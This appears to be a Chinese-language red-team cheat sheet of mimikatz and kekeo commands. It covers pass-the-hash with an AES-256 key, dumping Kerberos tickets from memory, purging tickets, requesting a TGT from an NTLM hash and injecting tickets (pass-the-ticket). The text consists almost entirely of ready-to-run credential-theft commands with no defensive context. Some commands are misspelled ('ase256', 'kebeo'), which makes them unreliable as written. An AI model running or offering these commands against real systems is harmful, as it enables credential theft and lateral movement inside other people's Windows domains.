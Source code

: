 ##### mimikatz 传递AES-256

```
mimikatz "privilege::debug" "sekurlsa::pth /user:user /domain:domain /ase256:hash"
```

##### mimikatz 票据传递

###### 将内存中的票据导出

```
mimikatz "privilege::debug" "sekurlsa::tickets /export"
```

###### 清除内存中的票据

```
mimikatz "kerberos::purge"
```

###### 将票据注入内存

```
mimikatz "kerberos::ptt "path""
```

##### kebeo 票据传递

###### 生成票据文件

```
kebeo "tgt::ask /user:user /domain:domain /ntlm:hash"
```

###### 清除内存中的其他票据

```
kerberos::purge

klist purge
```

###### 将票据文件导入内存

```
Kerberos::ptt PATH
```


